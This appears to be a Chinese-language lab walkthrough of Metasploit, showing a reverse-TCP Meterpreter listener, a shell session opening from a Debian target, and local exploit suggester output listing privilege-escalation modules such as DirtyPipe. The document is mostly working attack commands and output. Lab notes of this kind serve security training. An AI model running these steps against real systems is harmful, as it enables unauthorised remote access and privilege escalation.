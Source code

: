 

**Metasploit 启动监听**

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD payload/linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.10
LHOST => 10.10.10.10
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:4444 
```



**在靶机上设置 payload 可执行权限（并执行）开始反连**

![image-20250226152340190](./images/Metasploit.assets/image-20250226152340190.png)



**连接成功**

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:4444 
[*] Sending stage (3045380 bytes) to 10.10.10.102
[*] Meterpreter session 1 opened (10.10.10.10:4444 -> 10.10.10.102:53628) at 2025-02-26 07:20:24 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background 
[*] Backgrounding session 1...
```



**权限提升（检测漏洞）**

方式一：直接在会话中使用模块

```
meterpreter > sysinfo 
Computer     : 10.10.10.102
OS           : Debian 11.1 (Linux 5.10.0-9-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.102 - Collecting local exploits for x64/linux...
[*] 10.10.10.102 - Collecting local exploits for x64/linux...
[*] 10.10.10.102 - 203 exploit checks are being tried...
[+] 10.10.10.102 - exploit/linux/local/cve_2022_0847_dirtypipe: The target appears to be vulnerable. Linux kernel version found: 5.10.0
[+] 10.10.10.102 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/glibc_tunables_priv_esc: The target appears to be vulnerable. The glibc version (2.31-13+deb11u2) found on the target appears to be vulnerable
[+] 10.10.10.102 - exploit/linux/local/netfilter_nft_set_elem_init_privesc: The target appears to be vulnerable.
[+] 10.10.10.102 - exploit/linux/local/runc_cwd_priv_esc: The target appears to be vulnerable. Version of runc detected appears to be vulnerable: 1.0.0~rc93+ds1-5+b2.
```